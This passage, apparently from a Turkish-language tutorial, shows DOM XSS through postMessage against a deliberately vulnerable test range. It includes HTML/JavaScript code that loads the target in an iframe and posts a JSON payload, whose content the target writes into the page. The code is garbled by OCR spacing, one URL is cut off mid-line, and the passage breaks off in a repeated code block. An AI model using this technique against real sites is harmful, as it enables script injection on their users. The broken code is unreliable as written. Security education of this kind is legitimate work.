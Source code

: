 </ ht ml >

Burada yazdığımız HTML dosyasını kaydedip tarayıcımızda açtığımızda konsol ekranında bu şekilde bir hata ile karşılaştığımızı görürüz. Burada JSON objesi yerine string bir değer gönderdiğimiz için parse işlemi esnasında hata ile karşılaştık. Dolayısıyla burada string bir değer yerine JSON objesi göndermeliyiz. JSON içerisinde de ‘html’ diye bir özellik olmalıdır.

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.015.png)

karşılaştığımız hata

Hatanın çözümü için string ifade yerine JSON objesini göndereceğimiz yeni kod bloğu bu şekilde;

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.016.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' x' };

`             `t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ;      /

`         `}) ;

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Artık bu sayede postMessage ile istediğimiz mesajı iletebildiğimizi teyit edebiliriz.

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.017.png)

postMessage ile istenilen mesajın iletilmesi

Özetleyecek olursag ‘target.src’ kısmında belirttiğimiz bir hedef site bulduk. Bu hedef sitedeki JavaScript kodları kendisini iframe ile açan bir sayfadan mesaj almakta ve aldığı bu mesajdaki veriyi parse ettikten sonra bir div element’i oluşturmakta daha sonra da div’in içeriğine sizden aldığı data’yı yazmaktadır. Biz de burada kendi sitemizde bu hedef siteyi iframe ile yükletip istediğimiz mesajı gönderiyoruz. Burada artık XSS’in meydana geldiğini bu kod yapısı sayesinde tespit edebiliriz.

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.018.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;
